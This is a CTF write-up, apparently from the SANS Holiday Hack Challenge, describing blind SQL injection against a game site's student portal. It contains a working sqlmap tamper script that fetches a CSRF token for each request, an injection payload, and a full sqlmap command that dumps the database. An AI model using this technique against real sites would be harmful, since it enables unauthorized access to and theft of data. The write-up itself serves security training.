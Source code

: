 # Retrieve Scraps of Paper from Server

This exercise is that of an offensive attack. By siding with Krampus, he claims that
he has information that is locked behind an account that he no longer has access to.
He is asking me if I can break in and obtain the information behind the website.
	
The website in question (https://studentportal.elfu.org) contains some information
about the student body, as well as the ability to apply to become a student as well
as check your application status. Both of these pages are user-input fields, and
both of them are susceptible to a SQL injection attack. This is determined by
putting a ' character in any of the fields and seeing what returns. In both cases I
am able to obtain a SQL error, although with the application status checker page it
performs some client-side data validation to ensure that what you're entering is an
email address. Even still I can turn off javascript and view the error.
	
To establish a proof of concept, I fired up Burp Suite and intercepted the request,
only to find out that it makes a GET request prior to a POST request. The GET request
simply obtains a token from the server and appends it to the end of the POST request.
This token has a short-lived expiration date, so I can't simply obtain a token and
use it over and over again.
	
This unfortunately will defeat a "vanilla" run of sqlmap, considering sqlmap is not
inherently aware of CSRF tokens without some proper coaxing. To get around this, I
first needed to establish a proof of concept, so I began coding a SQL injection
attempt in python. What I needed to do was:

1. Make a GET request to the server to obtain a token
2. Make a POST request with the token appended to the URL Parameters
3. Find an injection point.

Number 1 and 2 were taken care of, just a couple lines of python. Eventually I found
the injection point between the email address, and "' OR '1'='1".
	
Now the problem is this is a blind SQL injection attack, so unless I want to code my
own, my best bet is to not re-invent the wheel and simply use sqlmap. Unfortunately
sqlmap doesn't have any built-in means of dealing with token collection. That means
I'll have to create my own tamper script! It's basically a plugin for sqlmap that
allows you to manipulate the payload before sending it.

I coded up the following to help with this:
```python
		#!/usr/bin/env python3
		"""
			A tamper script
		"""
		from lib.core.data import kb
		from lib.core.enums import PRIORITY
		import requests
		import urllib
		__priority__ = PRIORITY.NORMAL
		
		token_url = "https://studentportal.elfu.org/validator.php"
		
		def dependencies():
		    pass
		
		def tamper(payload, **kwargs):
		    token_get = requests.get(token_url)
		    retval = urllib.parse.quote(payload) + f"&token={token_get.text}"
		    # print(f"Tampered payload: {retval}")
        return retval
```
You'll see that I first obtain the token from validator.php and quickly append it
to the payload. In order for this to work in any capacity, sqlmap MUST be
configured to NOT url encode this payload at all! Something it does by default. To
that end, the user must trust that the tamper script will do the proper URL encoding,
and as you can see I do.
	
To run this, the command was:
	
	`client~# sqlmap -u 'https://studentportal.elfu.org/check-application.php?elfmail=a' --no-urlencode --tamper elf_tamper.py --dump`
	
This allowed me to dump the entire database! I only needed krampus's table, so inside
that was a link to several JPG's. Each jpg was a torn piece of paper. Taking the
pieces of paper and arranging them formed:

![Torn Note](images/hhc-torn-note.jpg)

Nice! Weird icon though...is that a tooth?